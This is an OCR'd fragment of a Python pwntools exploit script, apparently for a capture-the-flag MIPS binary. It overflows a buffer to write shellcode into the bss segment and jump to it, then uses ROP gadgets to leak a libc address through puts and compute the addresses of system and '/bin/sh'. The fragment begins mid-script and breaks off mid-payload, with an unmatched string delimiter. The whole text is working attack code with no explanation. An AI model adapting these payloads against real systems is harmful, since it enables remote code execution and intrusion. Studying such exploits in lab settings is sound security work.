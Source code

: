 ```python
p.recv()

log.info("bss:"+hex(elf.bss()))

shellcode = asm(shellcraft.sh())
#ret2shellcode
payload = 'a'*(padding-4)
#fp
payload += p32(bss + 0x200 - 0x18)
#调用read向bss段输入shellcode，然后ret到bss段
payload += p32(text_read)
 
p.send(payload)
 
sleep(0.1)
payload = 'a'*0x24     #12
payload += p32(bss + 0x200 + 0x28)
payload += shellcode
p.send(payload)
'''
sleep(0.2)

# gadget1
payload = 'a'*padding
payload += p32(0x004006C8)

#payload += p32(elf.plt['puts'])	# fp
payload += p32(1)

payload += "a" * 0x18
payload += 'a' * 4 # s0
#payload += p32(elf.got['puts']) # s1
payload += p32(0x00410B58)
payload += p32(0x0040092C) # s2


payload += 'a' * 4 # s3
payload += p32(0x004007A4) # ra


payload += 'a'*0x20
payload += p32(0x004007C4)

sleep(0.2)
p.send(payload)

p.recv()
#success(a)
libc_addr = u32(p.recv(4))-libc.symbols['puts']

success("libc_addr: " + hex(libc_addr))

p.recv()
#p.send(payload)
system_addr = libc_addr + libc.symbols['system']
binsh_addr = libc_addr + 0x9bc48



# gadget2
payload = 'a'*0x24
payload += p32(0x004006C8)

```